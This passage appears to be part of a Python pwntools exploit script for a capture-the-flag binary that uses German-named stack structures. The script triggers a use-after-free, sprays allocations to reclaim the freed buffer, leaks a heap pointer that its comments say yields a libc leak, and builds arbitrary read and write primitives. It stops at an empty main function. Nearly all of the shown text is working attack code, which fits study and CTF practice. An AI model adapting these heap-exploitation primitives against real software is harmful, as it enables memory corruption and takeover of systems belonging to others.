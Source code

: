 ```python
        l = p.recvline().strip()
        print(l)
        val = int(l.split(b' ')[1], 16)
    except (ValueError, IndexError) as e:
        val = -1
    return val

def abriss(keller_type):
    if keller_type == Keller.HK:
        choose(3)
    elif keller_type == Keller.NK:
        choose(4)

def unterkellern(keller_type):
    if keller_type == Keller.HK:
        choose(11)
    elif keller_type == Keller.NK:
        raise ValueError('Cannot unterkeller the Nebenkeller')

def setup_rw():
    # trigger free(HK->elemente)
    new_keller(0x1f, Keller.HK)
    unterkellern(Keller.HK)
    einkellern_bytes(0x1f * b'\xAA' + b'\xBB', Keller.HK)

    # allocate NKs until reallocated in HK->elemente 
    for i in range(0, 543):
        new_keller(0xff, Keller.NK)

    # move HK->elemente back to beginning
    mem = b''
    for i in range(0x1f):
        mem += int.to_bytes(auskellern(Keller.HK))

    # leak NK->elemente ptr -> gives full libc leak
    addr = struct.unpack('>Q', mem[-7:] + b'\x00')[0]
    print(f'NK.elemente={hex(addr)}')
    return addr

def set_hk_elem(addr: int):
    addr = pwn.p64(addr)
    einkellern_bytes(addr, Keller.NK)
    for _ in range(8):
        auskellern(Keller.NK)

def read(addr: int) -> bytes:
    set_hk_elem(addr+8)
    
    mem = b''
    for i in range(0x8):
        mem += int.to_bytes(auskellern(Keller.HK))
    
    addr = struct.unpack('>Q', mem)[0]
    return addr
    

def write(addr: int, b: bytes):
    set_hk_elem(addr)
    einkellern_bytes(b,Keller.HK)
    


def main():
```
